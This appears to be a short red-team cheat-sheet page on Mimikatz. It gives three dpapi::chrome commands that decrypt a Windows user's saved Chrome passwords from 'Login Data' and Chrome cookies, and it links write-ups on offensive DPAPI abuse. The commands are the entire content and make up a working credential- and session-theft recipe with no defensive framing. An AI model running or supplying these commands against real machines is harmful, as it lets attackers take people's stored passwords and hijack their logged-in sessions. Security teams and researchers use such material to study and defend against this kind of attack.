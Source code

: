 # Mimikatz

```
mimikatz # dpapi::chrome /in:"%LOCALAPPDATA%\Google\Chrome\UserData\Default\Login Data"

mimikatz # dpapi::chrome /in:"%LOCALAPPDATA%\Google\Chrome\UserData\Default\Login Data" /unprotect

mimikatz # dpapi::chrome /in:"%LOCALAPPDATA%\Google\Chrome\UserData\Default\Cookies" /unprotect
```

---
## References

### harmj0y

- [harmj0y: Operational Guidance for Offensive User DPAPI Abuse](https://web.archive.org/web/20211206115041/https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/)

### Passcape

- [Passcape Software: DPAPI Secrets](https://www.passcape.com/index.php?section=docsys&cmd=details&id=28)
